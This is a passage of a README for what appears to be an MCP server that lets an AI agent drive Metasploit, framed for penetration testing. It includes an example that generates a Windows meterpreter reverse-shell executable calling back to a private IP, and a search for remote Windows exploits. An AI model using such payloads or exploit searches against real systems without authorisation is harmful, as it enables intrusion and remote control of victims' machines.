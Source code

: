 ### **Payload Generation**
```
Use msf_generate_payload with:
- payload: "windows/meterpreter/reverse_tcp"
- options: {"LHOST": "192.168.1.100", "LPORT": "4444"}
- output_format: "exe"
```

### **Module Search**
```
Use msf_search_modules to search for "exploit platform:windows type:remote"
```

### **Workspace Management**
```
Use msf_create_workspace to create workspace "pentest_project_1"
Use msf_switch_workspace to switch to "pentest_project_1"
```

## 🔧 **Troubleshooting**

### **Common Issues**

1. **"Command not found" errors**
   - Ensure Metasploit Framework is installed: `msfconsole --version`
   - Check PATH includes MSF binaries

2. **Permission errors**
   - Ensure the Python script is executable: `chmod +x mcp_server_stable.py`
   - Check file permissions in the MCP directory

3. **Connection timeouts**
   - The server uses conservative timeouts (60s initialization, 30s commands)
   - Check system resources (2GB+ RAM, 2+ CPU cores recommended)

4. **Database connection issues**
   - Database issues are handled gracefully with fallback modes
   - The server will continue operating with limited functionality

### **Debug Mode**

To enable debug logging, modify the server file to use DEBUG level:

```python
logging.basicConfig(
    level=logging.DEBUG,  # Change from INFO to DEBUG
    format='%(asctime)s - %(name)s - %(levelname)s - %(message)s'
)
```

### **Performance Monitoring**

Check server status and performance metrics using:
```
Use msf_get_status tool to get comprehensive status information
```
